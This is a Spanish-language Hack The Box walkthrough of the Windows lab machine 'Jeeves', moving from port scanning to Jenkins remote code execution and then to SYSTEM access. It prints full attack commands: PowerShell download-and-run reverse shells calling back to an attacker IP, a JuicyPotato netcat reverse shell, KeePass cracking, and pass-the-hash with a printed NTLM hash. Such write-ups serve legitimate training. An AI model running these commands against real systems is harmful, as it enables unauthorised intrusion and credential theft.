


# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Jeeves](https://www.hackthebox.com/home/machines/profile/114) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad |  |
| Puntos | 30 |
| Creadores | [mrb3n](https://www.hackthebox.com/home/users/profile/2984) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 20:08 EDT
Initiating Connect Scan at 20:08
Scanning 10.10.10.63 [65535 ports]
Discovered open port 80/tcp on 10.10.10.63
Discovered open port 445/tcp on 10.10.10.63
Discovered open port 135/tcp on 10.10.10.63
Connect Scan Timing: About 26.73% done; ETC: 20:10 (0:01:25 remaining)
Discovered open port 50000/tcp on 10.10.10.63
Completed Connect Scan at 20:10, 97.29s elapsed (65535 total ports)
Nmap scan report for 10.10.10.63
Host is up, received user-set (0.069s latency).
Scanned at 2022-06-22 20:08:29 EDT for 97s
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
445/tcp   open  microsoft-ds syn-ack
50000/tcp open  ibm-db2      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.32 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,135,445,50000 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 21:30 EDT
Nmap scan report for 10.10.10.63
Host is up (0.069s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-06-23T06:30:29
|_  start_date: 2022-06-22T23:59:38
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 4h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.15 seconds
```

# Enumeración

## Servicios

### http - 80

Se presenta en el sitio web un formulario con un input el cual al realizar el submit se redirige a `error.html` que presenta un imagen relacionada al tipo de error que arroja un IIS. Dado que está hardcodeada la redireccion no se intentó nada al respecto.


Por otro lado, también se buscó fuzzear directorios mediante `ffuf`, sin tener éxito mostrando sólo las rutas con las anteriormente se había interactuado.

### http - 50000

#### Manual

Se hace la omisión de los puertos en los cuales no se encontró información que pudiera resultar útil, sin embargo, en este puerto es mostrado un error genérico del servidor Jetty exponiendo en primera instancia la versión que se está ejecutando. Después de buscar [vulnerabilidades relacionadas](https://www.cvedetails.com/product/34824/Eclipse-Jetty.html?vendor_id=10410) e intentar explotarlas se decidió no darle seguimiento dado que en este punto se había visualizado una ruta expuesta en la ejecución de `ffuf`.


#### ffuf

Después de casi completar el diccionario que por lo regular se usa, se identificó la ruta `askjeeves` mediante:

```bash
ffuf -c -ic -u http://10.10.10.63:50000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.xml,.html
```



Por lo que al navegar a esta se identificó la disponibilidad de un servidor Jenkins, abriendo paso a posibles rutas de explotación haciendo uso de las características ofrecidas por la plataforma.


# Explotación

## RCE 1

### Pasos previos | Preparación

Jenkins ofrece una consola de scripts siguiendo la sintáxis de Groovy, disponible en `Build Executor Status > master > Script Console`.


Al visualizar la sintáxis necesaria para ejecutar comandos de consola expuesta en la misma sección, se preparó la reverse shell de [nishang](https://github.com/samratashok/nishang) ejecutando al final del archivo la función empleada para entablar una reverse shell:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

### Ejecución

Se envió la invocación al recurso expuesto mediante la consola de scripts:

```groovy
print "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')".execute().text
```

Estableciendo así la reverse shell.


## RCE 2

### Pasos previos | Preparación

Igualmente se pueden ejecutar comandos directamente en la máquina mediante la creación de un nuevo item `Create New Item > Freestyle Project > Build > Execute Windows batch command`, guardando en el campo de texto el comando a ejecutar:

```powershell
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')
```


### Ejecución

Restando sólo guardar el proceso en la plataforma y ejecutarlo (`Save > Build Now`). Teniendo de esta forma otra manera de ejecutar comandos a través de Jenkins.



# Post Explotación

## Enumeración

Al ejecutar:

```
whoami /all
```

Para observar los privilegios con los que cuenta el usuario, se visualizó disponible el privilegio `SeImpersonatePrivilege` habilitado lo que denota la ruta de escalación haciendo uso de [JuicyPotato](https://github.com/ohpe/juicy-potato).


Además, se identificó una base de datos de KeePass `CEH.kdbx` en el directorio `Documents` del usuario, abriendo otra ruta de escalación si se llegara a encontrar información relevante para el proceso.


## Escalación de privilegios

### kohsuke &rarr; nt authority\system

#### JuicyPotato

Al cargar previamente el binario de netcat y ejecutar el binario de JuicyPotato se obtuvo una reverse shell como `nt authority\system` mediante:

```powershell
.\jp.exe -t * -l 1337 -p cmd.exe -a " /c C:\users\kohsuke\downloads\nc.exe -e cmd.exe 10.10.14.16 1234"
```


1. Ejecución de JuicyPotato.
2. Otención de reverse shell.

#### KeePass

Se extrajo la base de datos de KeePass haciendo uso de la utilería de [impacket](https://github.com/SecureAuthCorp/impacket), mediante:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support` y realizando el copiado con `cp .\CEH.kdbx \\10.10.14.16\smbFolder
```

Posteriormente, para crackear el archivo fue necesario primero extraer el hash del mismo, usando `keepass2john CEH.kdbx > ceh.hash` para a continuación iniciar el proceso de cracking haciendo uso de:

```bash
john ceh.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Obteniendo así la contraseña del archivo (`moonshine1`).


La base de datos expone múltiples entradas con contraseñas disponibles aunque una en particular se realzó por sobre todas debido al formato de la entrada. Identificandola como un hash NTLM `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`.


Por lo que hizo uso de nuevo de impacket para conectar a la máquina proveyendo el hash. Dada la estructura de lo hashes NTLM se podría usar tanto como:

```bash
impacket-psexec 'administrator@10.10.10.63' -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
```

Como con:

```bash
impacket-psexec 'administrator@10.10.10.63' -hashes ':e0fb1fb85756c24235ff238cbe81fe00'
```

Debido a que la primera mitad corresponde al identificador de la máquina y la segunda a la "autorización" del usuario.


#### Obtención de bandera

Después de buscar extraer el contenido de la bandera, se encontró el archivo `hm.txt` el cuál indica que la bandera no se encuentra presente si no en otro sitio. Durante ese proceso se encontró información referente a los [Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/) que básicamente son una forma de ocultar información en un archivo y la característica existe únicamente en sistemas de archivos de tipo NTFS.


Por lo que haciendo uso de los comandos sugeridos en el artículo se pudo visualizar que el stream oculto era `root.txt` con:

```powershell
powershell.exe get-item -path .\hm.txt -stream *
```

Para posteriormente extraer su contenido mediante:

```powershell
powershell.exe get-content -path .\hm.txt -stream root.txt
```


# Referencias

- [CVE Details - Jetty](https://www.cvedetails.com/product/34824/Eclipse-Jetty.html?vendor_id=10410).
- [Github - Nishang](https://github.com/samratashok/nishang).
- [Github - JuicyPotato](https://github.com/ohpe/juicy-potato).
- [Github - Impacket](https://github.com/SecureAuthCorp/impacket).
- [Introduction to Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/).